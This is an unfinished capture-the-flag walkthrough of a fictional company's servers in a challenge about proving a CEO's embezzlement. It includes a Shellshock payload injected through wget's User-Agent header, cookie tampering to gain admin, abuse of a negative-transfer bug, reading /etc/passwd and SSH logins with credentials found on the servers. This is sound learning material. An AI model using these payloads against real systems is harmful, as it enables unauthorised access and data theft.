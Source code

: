 # Write-up
Note: try to do it yourself, it is a much more rewarding experience. See this as
a last resort resource.

This is just a WIP, I have only started the CTF.

## 1 - Start
start at:
`http://45.55.54.126/`

want to prove that CEO is embezzling funds.

gives employee portal:
* `104.236.74.251`
* user: `jameson`
* pass: `hunter72`

gives bank interface:
* `104.236.74.251:3000`
* user: `bank`
* pass: `pbeukpbnhovhyixcialnlhpzo`


## 2 - Bank & Employee Portal
### 2.1 - Bank Interface
`http://104.236.74.251:3000/`

turns out it allows negative values:

```
TRANSFER CS -1000.0
(wait 10s)
WITHDRAW 1.0
```

gives URL to scraped accounts:
`http://104.236.74.251:3000/JJJ/all-in-internal-network.txt`

### 2.2 - Employee Portal
starts at: `http://104.236.74.251/`

personal site: `http://104.236.74.251/~dglenn/`

see poems, go up a folder, see files: `http://104.236.74.251/~dglenn/private/`

one of the keys: `http://104.236.74.251/~dglenn/private/key.txt`


also, security notice here: `http://104.236.74.251/mail/isn.html`

it tells us that we want to reach the *new* website (we're currently on the old
one).

it tells us that the new website will be on the internal network (good for us).

it tells us that we'll need 5 keys to access the boss docs.



change cookies so that `accesslevel=2` (`document.cookie="accesslevel=2";`), get
admin.


address of new website: `104.131.92.247`

will need to combine keys here: `http://104.236.74.251/~wscott/keys`

will access the boss dosc here: `http://104.236.74.251/` (user `bdupont`)

## 3 - New Website
`http://104.131.92.247/index.cgi`

Apache & CGI? **SHELLSHOCK**!

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/ls" http://104.131.92.247/index.cgi`

[resource](http://security.stackexchange.com/a/68203/44738)

gives us the files:
 * `index.cgi` - has code to trigger Shellshock
 * `index.php` - redirects to `index.cgi`
 * `admin.php` - redirects to `gist.github` and `die()`


`ls` on `/home` (or `cat /etc/passwd`) shows there is a user `jhendricks`

`ls` around (`..`), find file `note`, `cat` it:


```
To: Jim Hendricks
From: Carla Lynn
Date: September 5, 2015
Subject: Public frontend

The public frontend has been set up and can be found at 104.131.92.247

Your user account is as follows:

Username: jhendricks
Password: oXwBJMtx3BJ5yKg

As an IT manager it is your responsibility to make sure this server, as well as our other servers, are frequently updated with the latest patches available.

Please keep this memo safe and change your password immediately.

Regional IT Director
Carla Lynn
```

## 4 - Jhendricks
frontend is at: `104.131.92.247`
* user: `jhendricks`
* pass: `oXwBJMtx3BJ5yKg`

Those are valid SSH creds. Login.


Running `set` to see env vars, see MAIL (learned about that var and that is
represents unread emails).

`cat /var/spool/mail/jhendricks`:

```
From carla@thenorth.com  Sat Sep  5 02:41:53 2015
Return-Path: <carla@thenorth.com>
X-Original-To: jhendricks@thenorth.com
Delivered-To: jhendricks@thenorth.com
Received: by mail3.thenorth.com
  id B24C33FEA3; Sat,  5 Sep 2015 02:41:53 -0400 (EDT)
  Date: Sat, 05 Sep 2015 02:41:53 -0400
  To: jhendricks@thenorth.com
  Subject: Info
  MIME-Version: 1.0
  Content-Type: text/plain; charset=us-ascii
  Content-Transfer-Encoding: 7bit
  Message-Id: <20150905064153.B24C33FEA3@thenorth.com>
  From: carla@thenorth.com (carla)
  Status: RO

  Here are our servers. I'll keep you updated as we get more

  10.132.106.223 - 104.236.251.33
  10.132.3.229 - 45.55.179.181
  10.132.170.147 - 45.55.183.167
  10.132.114.141 - 45.55.47.192
  10.132.34.120 - 104.131.109.3
```


Could login to `45.55.47.192` with `wscott`:
* user: `wscott`
* pass: `oTLhoRZ8JOIDhkD`

## 5 - Wscott
SSH to `45.55.47.192`
* user: `wscott`
* pass: `oTLhoRZ8JOIDhkD`

`cat secretkey/README`:

```
If you're snooping around in this folder, you're
either Wesley (myself) or an intruder. If the latter
is true, get lost.

----

New security policy means that our keys can be combined
to get Bert's secret. Until the security of these
servers is proven in practice keys should be stored on
the old webserver, here:

http://104.236.74.251/~wscott/secret

Key is protected with a passphrase. The passphrase is
not stored in plaintext for security purposes. Instead
it is hashed with /usr/local/bin/securehash. Of course
secure hash is chosen because it is far more secure than
broken hash functions such as MD5.

Oh, and if you're an intruder: securehash is not related
to NIST's "SHA ('Secure' Hash Algorithm)" which is of
course not secure at all. securehash is my own invention
and nobody has broken it at all yet, so you can leave now.

Hash: 84c355da8831b62075d2ad9133ce6512
```
